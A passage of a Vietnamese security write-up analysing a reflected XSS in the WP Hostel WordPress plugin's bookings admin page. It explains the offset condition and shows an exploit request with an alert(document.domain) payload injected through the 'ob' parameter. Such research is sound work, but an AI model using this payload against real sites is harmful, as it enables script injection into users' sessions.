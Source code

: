 * `if($offset > 0)` => tức là phải có offset từ **1 trở lên**.
* Muốn `offset > 0` có ý nghĩa, cơ sở dữ liệu phải có ít nhất **2 booking**. Nếu chỉ có 1 booking thì sau khi bỏ qua 1 dòng (offset=1), không còn dữ liệu nào để hiển thị, nên payload cũng không render ra.

👉 Do đó, để khai thác thành công, cần có tối thiểu **2 booking** trong database.

---

Cuối cùng các kết quả được chứa trong các biến sẽ được hiển thị ra views thông qua hàm `include()`

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` có thể là hằng global được sử dụng sau khi file **PHP** chứa nó được load, Để biết được chính xác, ta tìm kiếm với từ khóa `WPHOSTEL_PATH`.

![search path](search_path.png "Đường dẫn tuyệt đối tới thư mục plugin")

---

## Exploit

**Request với XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload thực tế**:

```html
"><img src=x onerror=alert(document.domain)>
```

* Đóng thẻ `<a>` bằng ký tự `">`.
* Chèn thêm thẻ `<img>` có thuộc tính `onerror` để **kích hoạt JavaScript**.
* Dùng `alert(document.domain)` thay cho `alert(1)` như một thói quen, nhằm chứng minh rõ ràng khả năng đọc thông tin từ DOM. Điều này cũng giúp tránh trường hợp [Sandbox Domain](https://bughunters.google.com/learn/invalid-reports/web-platform/xss/6619189462433792/xss-in-sandbox-domains) khiến cho tác động của `payload` bị xem nhẹ hoặc không có.
